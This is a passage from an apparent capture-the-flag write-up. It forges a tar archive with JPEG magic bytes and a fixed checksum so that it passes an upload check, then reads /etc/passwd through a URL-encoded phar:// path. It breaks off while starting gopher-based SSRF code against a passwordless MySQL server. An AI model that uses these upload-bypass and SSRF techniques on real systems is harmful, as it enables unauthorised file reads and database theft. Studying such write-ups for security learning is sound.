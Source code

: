Now, in "AAABshpik", you should change AAA to "\ xFF \ xD8 \ xFF", which is the first part of the header that is checked when you upload jpg.

Next, you should change the checksum.

I changed the name through the code below, and calculated the checksum.

```python
import sys
import struct

def calcChecksum(data):
	return sum(struct.unpack_from("148B8x356B",data))+256

if __name__=="__main__":
	if len(sys.argv)!=3:
		print "argv[1] is filename\nargv[2] is output filename.\n"
	else:
		with open(sys.argv[1],'rb') as f:
			data = f.read()
		# Make new checksum
		new_name = "\xFF\xD8\xFF\xDBshpik".ljust(100,'\x00')
		new_data = new_name + data[100:]
		checksum = calcChecksum(new_data)
		new_checksum = oct(checksum).rjust(7,'0')+'\x00'
		new_data = new_name + data[100:148] + new_checksum + data[156:]

		with open(sys.argv[2],'wb') as f:
			f.write(new_data)
```

Now upload the file generated by the above code to the server.

**filename :** shpik_etcpasswd.jpg

Then phar://shpik_etcpasswd.jpg should be uploaded. 

But there is urldecode funtion in file_exists function, we uploaded "phar%3a%2f%2fshpik_etcpasswd.jpg".

**filename :** phar%3a%2f%2fshpik_etcpasswd.jpg

![](https://raw.githubusercontent.com/SeahunOh/seahunoh.github.io/master/assets/images/cat_proxy3.png)

You have successfully read /etc/passwd.

If the flag exists as a file, we can not find the file name using this vulnerability.

So I think it will be in the database.

database is mysql and password does not set(null).

Connect to mysql and extract data using **gopher wrapper**!

I use below code made mysql raw socket.

```python
import struct

def raw_encode(data):
    query = ''
    for i in range(len(data)/2):
        query += '%' + data[2*i:2*(i+1)]
    return unicode(query)

p_4 = lambda x:struct.pack('<L',x)

# SSRF MySQL without password
username = 'cat'
username = username.encode('hex')

```